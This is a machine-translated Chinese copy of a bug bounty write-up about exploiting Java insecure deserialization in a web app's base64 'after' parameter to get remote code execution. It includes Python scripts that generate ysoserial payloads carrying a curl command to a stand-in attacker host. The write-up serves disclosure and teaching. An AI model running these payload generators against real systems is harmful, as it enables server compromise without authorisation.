





# Java Web 应用程序上的 RCE 的故事

> 原文：<https://infosecwriteups.com/the-story-of-a-rce-on-a-java-web-application-2e400cddcd1e?source=collection_archive---------0----------------------->

大约两个月前(2021 年 11 月)，我受邀参加了一个私人项目。根据他们的程序范围，我决定黑他们一段时间。这篇文章是关于我在这家公司发现的一个导致 RCE 的漏洞。

# 侦察

在这一步，我的侦查方法没有发现一些独特的子域或资产。我在搜索一些具有一些有趣功能的网络应用程序，比如登录或文件上传。过了一会儿，我发现了一个有趣的入口。

在接下来的内容中，为了学习它的功能，我不得不重新定位门户本身。作为一个正常的套路，我尝试以一个正常用户的身份使用 web 应用(如果你不了解应用的正常流程，你是无法破解的)。我写下重要的事情，然后打开打嗝。

# 发现

我被门户吸引是因为它是定制的，这种门户、CMSes 或论坛通常比公共版本(如 WordPress)更容易受到攻击。在 Burp 中捕获请求时，我一直在测试各个部分，直到到达一个包含列表的页面，当我滚动该页面时，Java Script 发送了一个 Ajax 请求来加载更多的行。请求是这样的:

```
[https://target.com/api/v1/list?size=25&after=rO0aTm90aGluZyBIZXJlIDovIEp1c3QgYSBzZXJpYWxpemVkIHZhbHVlCg==](https://target.com/api/v1/list?size=25&after=rO0aTm90aGluZyBIZXJlIDovIEp1c3QgYSBzZXJpYWxpemVkIHZhbHVlCg==)
```



我尝试的第一件事是解码`after`参数值(如你所知，是 base64)。它有一个二进制值，但一些字符解码成功:



正如你所看到的，`java`被解码了，我猜是一个序列化的值(通过一些研究，我很确定，因为它是以`rO0`开始的)。

# 反序列化

如您所知，序列化是将 [](https://en.wikipedia.org/wiki/Data_structure) 数据结构或 [](https://en.wikipedia.org/wiki/Object_(computer_science)) 对象状态转换为可存储(例如，在文件中)或可通过网络传输的格式的过程。相反的操作，从一系列字节中提取一个数据结构，就是**反序列化** ( [维基百科](https://en.wikipedia.org/wiki/Serialization))。

一些程序使用序列化来存储状态，然后使用反序列化来恢复状态(就像我们测试的 web 应用程序一样)。但是如果程序反序列化一个不安全的输入会发生什么呢？这里是**不安全反序列化**发挥作用的地方。在这个漏洞中(也在 OWASP A8:2021 中)，攻击者发送他们的恶意序列化值作为易受攻击程序的输入。这通常会导致特权升级和 RCE。不安全的反序列化在各种编程语言中都有发生，但我主要关注 Java。



geeksforgeeks.com

# 漏洞

我之前提到过，在对序列化值进行解码之后，我开始研究 Java 中的反序列化(虽然我对白盒的东西从来不感兴趣，但是我也研究了 Java 中的序列化函数:)。作为研究的结果，我了解到我们可以以不同的格式给出序列化的输入，例如:

```
Hex signature      ->   AC ED 00 05Base64 signature   ->   rO0
```

目标使用 base64，因此我们必须找到一种方法来为 RCE 创建恶意的序列化输入，但在此之前，我们应该确保目标是易受攻击的。这里我有两种方法:1。用 Java 写一个 PoC 代码(我当时不懂 Java ) 2。公开使用可用的 PoC 代码。我很确定第二种方式对我来说更好(尽管我不想成为一个脚本小子)。于是我开始在 GitHub 里搜索一些 PoC 代码，找到了 [**ysoserial**](https://github.com/frohoff/ysoserial) 。该工具根据功能或版本生成各种有效载荷，其中一个有效载荷是 *URLDNS* ，你可以给它一个 URL，它就会生成一个有效载荷。如果我们给出生成的有效载荷并从服务器获得 DNS 查询，程序就容易受到攻击。换句话说，我必须进行带外测试，以确保应用程序易受攻击。我生成了有效载荷，并把它交给了 web 应用程序；



我收到一些 DNS 查询，目标很脆弱。让我们利用它。

# 剥削

我确信我可以利用它，但有一个问题。我又用了 ysoserial 但是我很震惊，因为它不起作用(至少我没有找到任何合适的有效载荷)。我放弃了，开始在门户上寻找其他 bug。

2-3 周后，我决定再做一次。像以前一样，我不得不想办法:1。用 Java 2 为 RCE 编写一个漏洞利用代码。在 GitHub(或任何地方)寻找漏洞代码。我选择了第二种方式(通常会有漏洞代码)。这一次，我发现了一些带有一些额外负载/选项的 ysoserial forks。我无法手动测试这些有效载荷(它们太多了)。因此，我编写了一个 python 脚本来生成所有可能的有效载荷，并将它们保存在一个文件中。然后我把那个文件给了打饱嗝的入侵者，但还是没用。该脚本的最终版本是这样的:

```
import os

modes = [] # All payload names here

collab = "attacker.com"
payload = f"curl -s https://rce.{collab}/poc"

for i in range(0,6):

    for mode in modes:
            result = os.popen('java -jar ysoserial' + f"{i}" + '.jar ' + mode + ' "' + payload + '" | base64 -w 0').read()

    if result != "":
            print(result)
    else:
            print("Donno but something is going wrong :/")
```

# 第二次尝试

当我没有收到目标的任何请求时，我有点放弃了，但是我看了看回应。一些状态代码是 400，或者其他一些响应包含 Java 错误。通过一些故障排除，我注意到 base64 中的一些字符破坏了请求(例如`+`)。所以我必须在保存之前修改我的 python 脚本和 URL 编码。第二次，我把新单词表给了打嗝的入侵者，几秒钟后:



这意味着我能够在服务器(RCE)上执行我的命令。在找到正确的有效负载和正确的 ysoserial 分支后，我用 Python 编写了一个漏洞利用代码，以便于复制:

```
import os
import urllib.parse

mode = "THAT_FOUNDED_SUITABLE_MODE"

collab = input("Enter your collaborator domain (e.g. attacker.com)> ")
payload = f"curl -s https://{collab}/poc"

result = os.popen('java -jar ysoserial4.jar ' + mode + ' "' + payload + '" | base64 -w0').read()

encoded = urllib.parse.quote_plus(result)

if encoded != "":
    print("Copy the following payload:\n\n")
    print(encoded)
else:
    print("Donno but something is going wrong :/")
```

最后我创建了`/tmp/poc.txt`并报告了漏洞。对于 PoC，这就足够了。

# 经验教训

*   总是解码任何 base64 或其他编码文本。
*   公共工具是好的，但是如果我用 Java 编写自己的漏洞利用代码，我会更快地发现这个漏洞。
*   总是测试每个功能，有时，你必须滚动页面:)
*   有时候，我们也不得不做那些无聊的工作。
*   默认情况下，Burp 入侵者对给定的有效载荷进行编码。但是这个特性在我的打嗝中被关闭了，虽然我在 Python 脚本中解决了这个问题，但是我发现这个特性是一个更好的解决方案。

# 资源

*   [https://www.geeksforgeeks.org/serialization-in-java/](https://www.geeksforgeeks.org/serialization-in-java/)
*   [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)
*   [https://www.baeldung.com/java-serialization](https://www.baeldung.com/java-serialization)
*   [https://www.javatpoint.com/serialization-in-java](https://www.javatpoint.com/serialization-in-java)
*   [https://www.tutorialspoint.com/java/java_serialization.htm](https://www.tutorialspoint.com/java/java_serialization.htm)

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)